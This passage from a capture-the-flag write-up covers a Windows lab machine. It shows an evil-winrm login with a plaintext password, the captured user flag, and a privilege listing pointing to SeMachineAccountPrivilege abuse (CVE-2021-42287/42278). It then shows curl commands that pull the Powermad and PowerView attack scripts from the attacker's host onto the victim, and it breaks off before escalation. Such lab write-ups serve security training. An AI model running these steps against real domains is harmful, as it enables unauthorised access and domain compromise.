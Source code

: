 With this info we can finally login to the victim and nab the user flag!

```console
└──╼ [★]$ evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.129.53.172

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
e5e4df8ff7b70b6d1b41b9893c2ec44c
```

# Privilege Escalation

I had some issues getting winpeas to run but when I finally did I received alot of permission denied so it did not end up helping me.

Luckily the privilege escalation was pretty straight forward and ```SeMachineAccountPrivilege``` stood out to me. However this would be harder to exploit than I expected.

```console
*Evil-WinRM* PS C:\Users\support\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
The link below has a good guide on how to exploit this but did not work for me. It also gave links on 2 programs that need to be uploaded and imported to the victim.

```https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html```

```console
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/Powermad/Powermad.ps1 -o Powermad.ps1
*Evil-WinRM* PS C:\temp> import-module ./Powermad.ps1
*Evil-WinRM* PS C:\temp> curl http://10.10.14.35:8000/powerview.ps1 -o powerview.ps1
*Evil-WinRM* PS C:\temp> import-module ./powerview.ps1
```
From this point on is where I was stuck and received help.
